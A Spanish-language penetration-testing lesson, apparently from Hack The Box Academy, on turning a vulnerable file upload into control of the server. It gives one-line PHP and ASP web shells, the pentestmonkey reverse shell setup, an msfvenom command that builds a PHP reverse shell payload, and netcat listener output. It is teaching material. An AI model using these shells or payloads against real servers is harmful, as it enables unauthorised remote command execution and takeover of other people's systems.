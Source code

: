 El paso final para explotar esta aplicación web es subir el script malicioso en el mismo lenguaje que la aplicación web, como un web shell o un reverse shell script. Una vez que subamos nuestro script malicioso y visitemos su enlace, deberíamos poder interactuar con él para tomar control sobre el servidor back-end.

---

## Web Shells

Podemos encontrar muchos web shells excelentes en línea que proporcionan características útiles, como la traversal de directorios o la transferencia de archivos. Una buena opción para `PHP` es [phpbash](https://github.com/Arrexel/phpbash), que proporciona un web shell semi-interactivo similar a un terminal. Además, [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) proporciona una gran cantidad de web shells para diferentes frameworks y lenguajes, que se pueden encontrar en el directorio `/opt/useful/SecLists/Web-Shells` en `PwnBox`.

Podemos descargar cualquiera de estos web shells para el lenguaje de nuestra aplicación web (`PHP` en nuestro caso), luego subirlo a través de la característica de carga vulnerable, y visitar el archivo subido para interactuar con el web shell. Por ejemplo, intentemos subir `phpbash.php` de [phpbash](https://github.com/Arrexel/phpbash) a nuestra aplicación web, y luego navegar a su enlace haciendo clic en el botón de Descargar:

   
`http://SERVER_IP:PORT/uploads/phpbash.php`
![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_bash.jpg)

Como podemos ver, este web shell proporciona una experiencia similar a un terminal, lo que facilita mucho la enumeración del servidor back-end para una explotación adicional. Prueba algunos otros web shells de SecLists, y ve cuáles se adaptan mejor a tus necesidades.

---

## Writing Custom Web Shell

Aunque el uso de web shells de recursos en línea puede proporcionar una gran experiencia, también debemos saber cómo escribir un web shell simple manualmente. Esto se debe a que puede que no tengamos acceso a herramientas en línea durante algunas pruebas de penetración, por lo que necesitamos poder crear uno cuando sea necesario.

Por ejemplo, con aplicaciones web `PHP`, podemos usar la función `system()` que ejecuta comandos del sistema e imprime su salida, y pasarle el parámetro `cmd` con `$_REQUEST['cmd']`, como sigue:


```php
<?php system($_REQUEST['cmd']); ?>
```

Si escribimos el script anterior en `shell.php` y lo subimos a nuestra aplicación web, podemos ejecutar comandos del sistema con el parámetro `?cmd=` en GET (por ejemplo, `?cmd=id`), como sigue:

`http://SERVER_IP:PORT/uploads/shell.php?cmd=id`

![](https://academy.hackthebox.com/storage/modules/136/file_uploads_php_manual_shell.jpg)

Esto puede no ser tan fácil de usar como otros web shells que podemos encontrar en línea, pero aún proporciona un método interactivo para enviar comandos y recuperar su salida. Podría ser la única opción disponible durante algunas pruebas de penetración web.

**Tip:** Si estamos usando este web shell personalizado en un navegador, puede ser mejor usar la vista de código fuente haciendo clic en `[CTRL+U]`, ya que la vista de código fuente muestra la salida del comando como se mostraría en el terminal, sin ningún renderizado de HTML que pueda afectar cómo se formatea la salida.

Los web shells no son exclusivos de `PHP`, y lo mismo se aplica a otros frameworks web, con la única diferencia siendo las funciones utilizadas para ejecutar comandos del sistema. Para aplicaciones web `.NET`, podemos pasar el parámetro `cmd` con `request('cmd')` a la función `eval()`, y también debería ejecutar el comando especificado en `?cmd=` e imprimir su salida, como sigue:


```r
<% eval request('cmd') %>
```

Podemos encontrar varios otros web shells en línea, muchos de los cuales pueden ser fácilmente memorizados para propósitos de pruebas de penetración web. Debe tenerse en cuenta que `en ciertos casos, los web shells pueden no funcionar`. Esto puede deberse a que el servidor web impide el uso de algunas funciones utilizadas por el web shell (por ejemplo, `system()`), o debido a un Web Application Firewall, entre otras razones. En estos casos, puede que necesitemos usar técnicas avanzadas para eludir estas mitigaciones de seguridad, pero esto está fuera del alcance de este módulo.

---

## Reverse Shell

Finalmente, veamos cómo podemos recibir reverse shells a través de la funcionalidad de carga vulnerable. Para hacerlo, deberíamos empezar descargando un reverse shell script en el lenguaje de la aplicación web. Un reverse shell confiable para `PHP` es el reverse shell de [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell). Además, el mismo [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) que mencionamos anteriormente también contiene scripts de reverse shell para varios lenguajes y frameworks web, y podemos utilizar cualquiera de ellos para recibir un reverse shell también.

Descarguemos uno de los scripts de reverse shell anteriores, como el de [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), y luego ábramoslo en un editor de texto para ingresar nuestro `IP` y `PORT` de escucha, a los que el script se conectará. Para el script de `pentestmonkey`, podemos modificar las líneas `49` y `50` e ingresar el IP/PORT de nuestra máquina:


```r
$ip = 'OUR_IP';     // CHANGE THIS
$port = OUR_PORT;   // CHANGE THIS
```

Luego, podemos iniciar un listener de `netcat` en nuestra máquina (con el puerto mencionado anteriormente), subir nuestro script a la aplicación web, y luego visitar su enlace para ejecutar el script y obtener una conexión de reverse shell:


```r
nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Como podemos ver, recibimos exitosamente una conexión desde el servidor back-end que aloja la aplicación web vulnerable, lo que nos permite interactuar con él para una explotación adicional. El mismo concepto se puede usar para otros frameworks web y lenguajes, con la única diferencia siendo el script de reverse shell que usamos.

---

## Generating Custom Reverse Shell Scripts

Al igual que con los web shells, también podemos crear nuestros propios scripts de reverse shell. Aunque es posible usar la misma función `system` anterior y pasarle un comando de reverse shell, esto puede no ser muy confiable, ya que el comando puede fallar por muchas razones, al igual que cualquier otro comando de reverse shell.

Por eso, siempre es mejor usar funciones del core del framework web para conectarse a nuestra máquina. Sin embargo, esto puede no ser tan fácil de memorizar como un script de web shell. Afortunadamente, herramientas como `msfvenom` pueden generar un script de reverse shell en muchos lenguajes e incluso intentar eludir ciertas restricciones. Podemos hacerlo de la siguiente manera para `PHP`:


```r
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
...SNIP...
Payload size: 3033 bytes
```

Una vez que se genera nuestro script `reverse.php`, podemos nuevamente iniciar un listener de `netcat` en el puerto que especificamos anteriormente, subir el script `reverse.php` y visitar su enlace, y deberíamos recibir también una conexión de reverse shell:


```r
nc -lvnp OUR_PORT
listening on [any] OUR_PORT ...
connect to [OUR_IP] from (UNKNOWN) [181.151.182.286] 56232
# id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

De manera similar, podemos generar scripts de reverse shell para varios lenguajes. Podemos usar muchos payloads de reverse shell con el flag `-p` y especificar el lenguaje de salida con el flag `-f`.

Aunque los reverse shells siempre se prefieren sobre los web shells, ya que proporcionan el método más interactivo para controlar el servidor comprometido, puede que no siempre funcionen, y puede que tengamos que depender de los web shells en su lugar. Esto puede ser por varias razones, como tener un firewall en la red back-end que impide las conexiones salientes o si el servidor web desactiva las funciones necesarias para iniciar una conexión de vuelta a nosotros.